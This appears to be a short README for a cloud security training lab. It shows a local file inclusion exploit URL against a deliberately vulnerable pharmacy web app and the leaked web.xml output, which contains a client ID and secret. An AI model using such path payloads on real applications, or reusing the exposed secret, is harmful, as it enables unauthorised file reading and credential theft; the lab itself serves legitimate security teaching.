 # Attack Lab 4

## Access to the differents resources

Access to the web application, from your browser:
```
https://resourcespharmacorp.azurewebsites.net/
```

Detection of vulnerable Link:
![button](LAB4.png)

Exploit the LFI vulnerability in order to extract the application configuration:
```
https://resourcespharmacorp.azurewebsites.net/main?action=getData&fileName=WEB-INF/web.xml
```
The clientsecret user:credentials for authentication
```
?xml version="1.0" encoding="UTF-8"?>

  AzureAppServicePharmaLFI

     
    home.jsp
  
  
  
    MainServlet
    MainServlet
    servlet.MainServlet
  
  
  
    MainServlet
    /main/*
  
  
  
  
    ClientSecret
    7e7730b1-29ab-4adf-bb20-7ae61987d01f:~9j8Q~f339gnUfSBxSO5yuQXM6ztfCBL8LPjXa3I
  

?
```
